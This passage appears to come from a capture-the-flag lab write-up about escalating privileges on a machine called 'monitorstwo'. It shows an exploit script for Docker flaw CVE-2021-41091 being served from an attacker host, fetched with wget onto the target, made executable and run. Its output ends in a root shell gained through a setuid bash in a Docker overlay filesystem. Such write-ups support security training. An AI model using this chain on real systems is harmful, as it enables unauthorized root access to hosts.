 	# move within the directory
	$ cd CVE-2021-41091/
	# checking permissions
	$ ls -l
	total 8
	-rwxr-xr-x 1 root root 2446 Jan 25 18:18 exp.sh
	-rw-r--r-- 1 root root 2616 Jan 25 18:18 README.md
	# start a Python HTTP server
	$ python3 -m http.server
	Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	10.10.11.211 - - [25/Jan/2024 18:19:47] "GET /exp.sh HTTP/1.1" 200 -
	```

From `marcus`'s terminal:

  ```bash
  # download the script
  marcus@monitorstwo:~$ wget http://10.10.14.33:8000/exp.sh
  --2024-01-25 18:19:47--  http://10.10.14.33:8000/exp.sh
  Connecting to 10.10.14.33:8000... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 2446 (2.4K) [text/x-sh]
  Saving to: ‘exp.sh’

  exp.sh                100%[========================>]   2.39K  --.-KB/s    in 0s

  2024-01-25 18:19:47 (356 MB/s) - ‘exp.sh’ saved [2446/2446]
  # assign execute permissions
  marcus@monitorstwo:~$ chmod +x exp.sh
  # confirm permissions
  marcus@monitorstwo:~$ ls -l exp.sh
  total 8
  -rwxrwxr-x 1 marcus marcus 2446 Jan 25 18:18 exp.sh
  # execute the script
  marcus@monitorstwo:~$ ./exp.sh
  [!] Vulnerable to CVE-2021-41091
  [!] Now connect to your Docker container that is accessible and obtain root access !
  [>] After gaining root access execute this command (chmod u+s /bin/bash)

  Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
  [!] Available Overlay2 Filesystems:
  /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
  /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

  [!] Iterating over the available Overlay2 filesystems !
  [?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
  [x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

  [?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
  [!] Rooted !
  [>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
  [?] If it didnt spawn a shell go to this path and execute './bin/bash -p'

  [!] Spawning Shell
  bash-5.1# exit

  ```